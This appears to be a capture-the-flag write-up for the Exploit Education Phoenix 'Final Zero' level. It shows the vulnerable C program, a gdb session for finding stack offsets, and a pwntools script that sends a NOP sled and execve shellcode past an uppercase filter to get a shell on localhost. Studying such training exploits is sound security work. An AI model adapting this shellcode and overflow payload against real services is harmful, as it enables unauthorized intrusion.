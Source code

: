 ```yaml
---
title: " Exploit Education | Phoenix | Final Zero"
permalink: "exploit-education/phoenix/:title"
layout: post
---
```



```c
#include <ctype.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define BANNER \
  "Welcome to " LEVELNAME ", brought to you by https://exploit.education"

char *gets(char *s);

/*
 * Read the username in from the network
 */

char *get_username() {
  char buffer[512];
  char *q;
  int i;

  memset(buffer, 0, sizeof(buffer));
  gets(buffer);

  /* Strip off trailing new line characters */
  q = strchr(buffer, '\n');
  if (q) *q = 0;
  q = strchr(buffer, '\r');
  if (q) *q = 0;

  /* Convert to lower case */
  for (i = 0; i < strlen(buffer); i++) {
    buffer[i] = toupper(buffer[i]);
  }

  /* Duplicate the string and return it */
  return strdup(buffer);
}

int main(int argc, char **argv, char **envp) {
  char *username;

  printf("%s\n", BANNER);
  fflush(stdout);

  username = get_username();
  printf("No such user %s\n", username);
}
```

This level has a classic stack buffer overflow through **gets** function, so we inject our shellcode in the buffer then overflow the buffer and jump to our shellcode address, easy right :)

The problem here is the for loop that converts every character in our buffer to uppercase using **toupper** function, so our shellcode will be ruined.

If we look before the for loop we can see that the code terminates the buffer at any newline **\n** or carriage return **\r**.

If we enter a newline our input will terminate anyway so nothing to do here but the carriage return **\r** doesn't terminate the input, we can see the man page for **get**:

```
DESCRIPTION
       Never use this function.
       gets()  reads a line from stdin into the buffer pointed to by s until either a terminating newline or EOF, which it replaces with a null byte ('\0').
```

As we see **gets** will terminate the input on **'\n'** and **'\0'** only, great.

So the exploit here is to place our shellcode after **\r** with will be replaced by **'\0'** so that the for loop can't reach our shellcode (**strlen** stops at '\0').

```
$ gdb -q /opt/phoenix/amd64/final-zero 
Reading symbols from /opt/phoenix/amd64/final-zero...(no debugging symbols found)...done.

gef➤  disassemble get_username 
Dump of assembler code for function get_username:
.....
   0x00000000004007f2 <+37>:	lea    rax,[rbp-0x220]
   0x00000000004007f9 <+44>:	mov    rdi,rax
   0x00000000004007fc <+47>:	call   0x4005d0 <gets@plt>
   0x0000000000400801 <+52>:	lea    rax,[rbp-0x220]
.....

gef➤  b *0x0000000000400801
Breakpoint 1 at 0x400801

gef➤  r
Starting program: /opt/phoenix/amd64/final-zero 
Welcome to phoenix/final-zero, brought to you by https://exploit.education
AAAAAAAA
Breakpoint 1, 0x0000000000400801 in get_username ()

gef➤  x/xg $rbp-0x220
0x7fffffffe410:	0x4141414141414141
```

The buffer is at offset 0x220 = 544 bytes and it's at address **0x7fffffffe410**, great (not really).

If you tried to overwrite **RIP** with this address the exploit won't work so we should investigate more.

We need to debug the process we are sending the payload to instead of debugging locally, so we will open two terminals one for the connection and another for gdb.

```
# First Terminal:

$ nc localhost 64003
Welcome to phoenix/final-zero, brought to you by https://exploit.education
```

```
# Second Terminal:

$ ps aux | grep final
phoenix+ 14770  0.5  0.0    752     4 ?        Ss   18:55   0:00 /opt/phoenix/amd64/final-zero
user     14772  0.0  0.0   5136   984 pts/2    S+   18:55   0:00 grep final

$ sudo gdb -p 14770
Attaching to process 14770
Reading symbols from target:/opt/phoenix/amd64/final-zero...(no debugging symbols found)...done.

gef➤  b *0x0000000000400801
Breakpoint 1 at 0x400801

gef➤  c
Continuing.
```

Now enter some input in the first terminal like "AAAAAAAA".

```
Breakpoint 1, 0x0000000000400801 in get_username ()

gef➤  x/xg $rbp-0x220
0x7fffffffea60: 0x4141414141414141
```

As you can see the address of buffer if very far from our first address, offset between them = 0x7fffffffea60 - 0x7fffffffe410 = 1616 bytes.

So we will replace our **RIP** with an address close enough to **0x7fffffffea60** and we are done.

# Solution:

```python
# solve.py

from pwn import *

shellcode = '\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05'

con = remote('localhost', 64003)
print(con.recvline())					# receive the greeting message

buff = ""
buff += 'A'*7 + '\r'					# JUNK
buff += '\x90'*200					# some NOPS
buff += shellcode					# our shellcode
buff += 'A' * (544 - len(buff))				# JUNK
buff += 'BBBBBBBB'					# RBP value
buff += p64(0x7fffffffea90)				# RIP value

con.send(buff)						# send the payload
con.interactive()					# interactive shell
```

```
$ python solve.py 
[+] Opening connection to localhost on port 64003: Done
Welcome to phoenix/final-zero, brought to you by https://exploit.education
[*] Switching to interactive mode

$ whoami
phoenix-amd64-final-zero
```